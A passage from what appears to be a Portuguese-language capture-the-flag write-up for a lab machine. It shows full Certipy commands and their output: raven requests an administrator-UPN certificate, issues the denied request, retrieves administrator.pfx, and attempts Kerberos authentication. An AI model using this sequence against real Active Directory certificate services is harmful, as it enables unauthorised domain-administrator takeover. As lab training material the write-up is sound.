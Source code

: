     `certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb`
    
    ```bash
    certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
    10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Requesting certificate via RPC
    [-] Got error while trying to request certificate: code: 0x80094012 -
    CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not
    allow the current user to enroll for this type of certificate.
    [*] Request ID is 13
    Would you like to save the private key? (y/N) y
    [*] Saved private key to 13.key
    [-] Failed to request certificate
    ```
    
    Notamos que o ID do pedido de certificado é 13. Agora vamos usar as permissões obtidas para emitir manualmente o certificado falhado com o comando ca e o parâmetro -issue-request <ID do pedido>.
    
    `certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -issue-request 13`
    
    ```bash
    certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
    10.10.11.236 -ca manager-dc01-ca -issue-request 13
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Successfully issued certificate
    ```
    
    > Se nesta fase receber um erro de [-] Got access denied trying to issue certificate, reexecute o comando onde adicionamos Raven como gerente. Os scripts de limpeza da caixa provavelmente restauraram as permissões iniciais.
    > 
    
    `certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -retrieve 13`
    
    ```bash
    certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
    10.10.11.236 -ca manager-dc01-ca -retrieve 13
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Rerieving certificate with ID 13
    [*] Successfully retrieved certificate
    [*] Got certificate with UPN 'administrator@manager.htb'
    [*] Certificate has no object SID
    [*] Loaded private key from '13.key'
    [*] Saved certificate and private key to 'administrator.pfx'
    ```
    
    Com o arquivo PFX do administrador em nossa posse, agora podemos utilizá-lo para autenticação. Ao executar o comando auth, encontramos o erro "KRB_AP_ERR_SKEW (Desvio de relógio muito grande)".
    
    `certipy auth -pfx administrator.pfx`
    
    ```bash
    certipy auth -pfx administrator.pfx
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Using principal: administrator@manager.htb
    [*] Trying to get TGT...
    [-] Got error while trying to request TGT: Kerberos SessionError:
    KRB_AP_ERR_SKEW(Clock skew too great)
    ```
    